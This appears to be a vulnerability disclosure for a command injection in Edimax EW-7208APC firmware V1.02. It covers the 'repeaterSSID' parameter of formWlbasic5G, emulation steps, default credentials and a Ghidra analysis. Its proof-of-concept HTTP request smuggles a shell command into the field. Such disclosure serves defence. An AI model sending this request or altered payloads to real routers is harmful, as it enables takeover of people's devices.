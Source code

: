 ## **Description**

A command injection vulnerability was discovered in the Edimax EW-7208APC firmware version ​**V1.02**. The vulnerability arises from the improper input validation of the `'repeaterSSID'` parameter in the 'formWlbasic5G' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: EW-7208APC
- ​**Version**: V1.02

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/EW-7208APC_v1.02.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)
## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'formWlbasic5G' is below:
![vulner_code.png](./img/vulner_code1.png)
![vulner_code.png](./img/vulner_code2.png)
- ​**websGetVar** retrieves POST parameters 'chan' and 'repeaterSSID'.
- **wlgetHiddenSSIDinfo5g()** use the param_1 for system without check, we can construct a string that bypasses double quotes, resulting a command injection in this place.

## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/formWlbasic5G HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==
Connection: close
Referer: http://192.168.2.1/adv_wireless.asp
Upgrade-Insecure-Requests: 1

chan=19&repeaterSSID=%22%3Becho+SSID>/poc.txt%3B%22
```

After the request we can see the file 'poc.txt' been created in the root directory.
![result](./img/result.png)